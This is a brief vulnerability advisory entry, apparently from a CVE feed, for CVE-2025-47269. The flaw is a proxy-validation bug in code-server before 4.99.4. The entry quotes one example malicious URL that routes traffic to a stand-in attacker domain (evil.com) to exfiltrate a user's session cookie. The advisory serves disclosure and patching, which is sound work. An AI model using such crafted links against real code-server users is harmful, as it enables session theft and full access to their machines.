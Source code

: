 ```yaml
---
title: CVE-2025-47269
date: 2025-5-9
lien: "https://cvefeed.io/vuln/detail/CVE-2025-47269"

---
```


CVE ID : CVE-2025-47269

Published :  May 9
2025
9:15 p.m. | 14 hours
23 minutes ago

Description : code-server runs VS Code on any machine anywhere through browser access. Prior to version 4.99.4
a maliciously crafted URL using the proxy subpath can result in the attacker gaining access to the session token. Failure to properly validate the port for a proxy request can result in proxying to an arbitrary domain. The malicious URL `https:///proxy/test@evil.com/path` would be proxied to `test@evil.com/path` where the attacker could exfiltrate a user's session token. Any user who runs code-server with the built-in proxy enabled and clicks on maliciously crafted links that go to their code-server instances with reference to /proxy. Normally this is used to proxy local ports
however the URL can reference the attacker's domain instead
and the connection is then proxied to that domain
which will include sending cookies. With access to the session cookie
the attacker can then log into code-server and have full access to the machine hosting code-server as the user running code-server. This issue has been patched in version 4.99.4.

Severity: 8.3 | HIGH

Visit the link for more details
such as CVSS details
affected products
timeline
and more...
